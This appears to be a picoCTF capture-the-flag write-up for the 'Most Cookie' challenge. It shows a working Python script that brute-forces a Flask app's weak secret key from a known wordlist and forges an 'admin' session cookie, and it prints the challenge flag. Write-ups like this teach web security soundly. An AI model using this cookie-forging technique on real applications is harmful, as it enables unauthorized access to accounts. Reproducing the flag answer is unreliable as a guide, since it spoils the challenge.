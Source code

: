 
# PICOCTF - Most Cookie


### Description:
> Alright, enough of using my own encryption. Flask session cookies should be plenty secure! `server.py` http://mercury.picoctf.net:18835/
### Solution:
1. Firstly, let's do some reconnaissance.

From the description, we know that this site use the Flask session to "encode" their cookies, let's first take a look at the cookie before entering any value:

```
eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y5s-Bw.kfx9C1txle5Kuc0lujp_-C_fiAY
```

The code provided in `server.py` also worth noticing:

```python 
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

In the block of code above, we can see that the server will randomly choose a value in `cookie_names` as our secret_key.

```python
@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```

In the `main` function, if we enter any cookie provided in `cookie_names` the page will be directed to `/display`, otherwise, if we search without enter anything it will remain in the homepage or `/index.html`.

```python
@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
In the `search` function, if we enter any cookie that is present in `cookie_names` we will be redirected to `/display`, ortherwise, we will be redirected to the homepage.

```python
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```

In the `flag` function, if our `check` variable is `admin` we will be able to see our flag, otherwise, we will be redirected to the homepaage. So our objective is to change `check` to `admin`.

2. After some researching on `Github` and `Google`, I came accross a really [cool article](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce). We can ,therefore, break the encrypted cookie into 3 parts:

```
The Session Data: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9
```

```
The Time stamp: Y5s-Bw
```

```
The Cryptographic Hash: kfx9C1txle5Kuc0lujp_-C_fiAY
```

The session data is a Base64 encoded string, so we can decode it as follows:

```
{"very_auth":"blank"}
```
Therefore, we need to change our `session data` to `admin` and the `time stamp` can be ignored. However, the `Cryptographic Hash` needs to be dealt with.
 
 In order to understand how our `Cryptographic Hash` is created, pay a visit to [this article](https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key). In a nutshell, our `cookie` will be added with our `secret_key` and encrypted with `sha1`. So we need to find a way to figure out the `secret_key`.

 The following code will generate our `secret_key` in accordance to the provided `wordlist` and `cookie string`:

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask.sessions import TaggedJSONSerializer

#the provided cookies
wordlist = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

#encoded cookie of snickerdoodle
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Y5tJ4A.wdS0ZlamUFnCNQCC69Z7T1OVCfE" 

#decode function
def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)

#decode every provided cookie to find the secret_key
session = {'very_auth': 'admin'}
for secret_key in wordlist:
    try:
        cookie = decode_flask_cookie(secret_key, cookie_str)
    except:
        continue
#Using the secret_key we can forge our new cookie
    print(URLSafeTimedSerializer(
    secret_key = secret_key,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs={
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
).dumps(session))
```

After successfully generated our `secret_key`, we can finally forge our own `cookie` using the `secret_key` and `{"very_auth":"admin"}`, the new cookie might look like this:

```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y5tSeQ.sntBroyYLInfPWRsGmeV661_yQk
```
3. We can then insert our cookie onto http://mercury.picoctf.net:18835/display to get our flag:

```
Flag: picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
```




## Flag
```
picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
```
